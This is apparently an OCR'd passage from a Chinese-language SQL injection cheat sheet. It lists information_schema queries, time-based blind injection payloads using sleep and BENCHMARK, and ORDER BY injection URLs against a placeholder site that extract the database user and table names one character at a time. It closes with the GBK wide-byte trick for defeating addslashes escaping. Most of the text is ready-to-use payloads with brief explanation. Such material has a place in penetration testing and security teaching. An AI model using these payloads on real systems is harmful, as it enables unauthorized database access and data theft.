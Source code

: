 **根据列名查询所在的表**

```sql
-- 查询字段名为 username 的表
SELECT table_name FROM information_schema.columns WHERE column_name = 'username';
-- 查询字段名中包含 username 的表
SELECT table_name FROM information_schema.columns WHERE column_name LIKE '%user%';
```

**条件语句**

```sql
SELECT IF(1=1, true, false);
SELECT CASE WHEN 1=1 THEN true ELSE false END;
```

**延时函数**

```sql
SELECT sleep(3)

UNION SELECT If(ascii(substr(database(),1,1))>115,0,sleep(5))

SELECT BENCHMARK(100000,SHA1('true'))

UNION SELECT IF(MID(version(),1,1) LIKE 5, BENCHMARK(100000,SHA1('true')), false)
```

**order by 后的注入**

简单判断
```
order=1%20and(select%20if(mid(user(),1,4)=%22root%22,sleep(0.01),123))
```

order by 由于是排序语句，所以可以利用条件语句做判断，根据返回的排序结果不同判断条件的真假。一般带有 order 或者 order by 的变量很可能是这种注入，在知道一个字段的时候可以采用如下方式注入：
```sql
http://www.test.com/list.php?order=vote

-- 根据 vote 字段排序。找到投票数最大的票数 num 然后构造以下链接：

http://www.test.com/list.php?order=abs(vote-(length(user())>0)*num)+asc

-- 看排序是否变化。还有一种方法不需要知道任何字段信息，使用 rand 函数：

http://www.test.com/list.php?order=rand(true)
http://www.test.com/list.php?order=rand(false)

-- 以上两个会返回不同的排序，判断表名中第一个字符是否小于 128 的语句如下：

http://www.test.com/list.php?order=rand((select char(substring(table_name,1,1)) from information_schema.tables limit 1)<=128))
```

**宽字节注入**

国内最常使用的 GBK 编码，这种方式主要是绕过 addslashes 等对特殊字符进行转移的绕过。反斜杠 \ 的十六进制为 %5c，在你输入 %bf%27 时，函数遇到单引号自动转移加入 \，此时变为 %bf%5c%27，%bf%5c 在 GBK 中变为一个宽字符「縗」。%bf 那个位置可以是 %81-%fe 中间的任何字符。不止在 SQL 注入中，宽字符注入在很多地方都可以应用。
